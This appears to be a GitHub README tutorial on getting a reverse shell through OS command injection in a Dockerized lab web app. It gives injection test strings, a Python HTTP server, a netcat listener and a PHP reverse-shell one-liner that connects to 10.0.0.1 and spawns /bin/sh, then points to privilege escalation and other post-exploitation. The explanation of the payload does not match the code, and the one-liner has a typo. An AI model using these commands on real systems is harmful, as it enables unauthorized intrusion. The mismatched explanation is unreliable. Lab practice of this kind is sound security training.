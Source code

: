 # How-to-perform-reverse-shell
  - After successfully setting up the Docker container and deploying the backdoor script, the next steps involve identifying and exploiting vulnerabilities in the web application, specifically targeting OS command injection. Here's a detailed breakdown of what to do after setting up the Docker and backdoor:
## Identifying Vulnerabilities on the OS Command Injection Page

### Procedure:
- Navigate to the Vulnerability Section: Access the web application running inside the Docker container through your browser. Look for a menu or option labelled "Vulnerabilities" or similar.

- Select Command Injection: Within the vulnerabilities section, identify and click on "Command Injection." This option typically brings you to a form or input field where commands can be injected.

### Understanding Command Injection:
- Command injection vulnerabilities occur when an application passes unsafe user-supplied data (in this case, input fields, query parameters, etc.) to a system shell. If the input is not properly sanitized, an attacker can execute arbitrary commands on the server.

- Test for Vulnerability. To test if the page is vulnerable, try injecting a simple command such as ; ls or && whoami. If the command is executed and the result is displayed (like listing the directory contents or showing the current user), then the application is vulnerable to OS command injection.

## First : Run a Python HTTP Server
### Purpose:
- The Python HTTP server will host the backdoor script, allowing it to be served to the target machine.
### Command: 
- Open a new terminal and run the following command
`python3 -m http.server`
### Explanation: 
- This command will start a simple HTTP server that listens on port 8000 by default. The server will serve files from the directory in which the command is executed. Ensure that your backdoor script is in this directory, as it will be accessed via the web browser or a curl command from the target system.

## Find the Docker IP Address
### Purpose:
- Identifying the Docker container's IP address is crucial because it allows you to direct the backdoor connection back to your machine.
### Command:
In a new terminal, run the following command 
`ip a`
### Explanation:
- his command displays all network interfaces and their associated IP addresses. Look for the `docker0` interface, which typically represents the Docker bridge network. The IP address associated with this interface is what you’ll use to direct the reverse shell.

## Set Up a Netcat Listener:
### Purpose:
- The Netcat listener will wait for an incoming connection from the target system, which will be initiated by the backdoor script.
### Command: 
Set up a listener on a specific port (e.g., 1234) using the following command

`nc -lvnp 1234`
### Explanation:
- The -l flag tells Netcat to listen for incoming connections, -v makes it verbose (to display the connection details), -n prevents DNS lookups, and -p specifies the port number to listen on. Once the backdoor script is executed on the target system, it will connect back to your machine on this port, giving you shell access.

## Execute the Reverse Shell: 
### Injection of Payload:
- With confirmation of the vulnerability, inject a payload that will download and execute your backdoor script from the Python HTTP server.
- Example command to inject

  `php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3"):'`
### Explanation
- This command tells the server to fetch the backdoor script from your Python HTTP server and execute it using PHP. Once executed, the backdoor will initiate a connection to your Netcat listener.

## Gain Shell Access:
- Once the payload is successfully injected and executed, you should see a connection on your Netcat listener. This connection gives you shell access to the target system, allowing you to execute commands as if you were directly logged into the server.

## Post-Exploitation:
- With shell access, you can now navigate the target system, explore files, escalate privileges, or perform any other post-exploitation activities necessary to achieve your objectives.

## Conclusion
- By following these steps, you’ll be able to exploit the OS command injection vulnerability to gain unauthorized access to the target system through a reverse shell. This highlights the critical importance of secure coding practices and the need for rigorous input validation and sanitization in web applications.
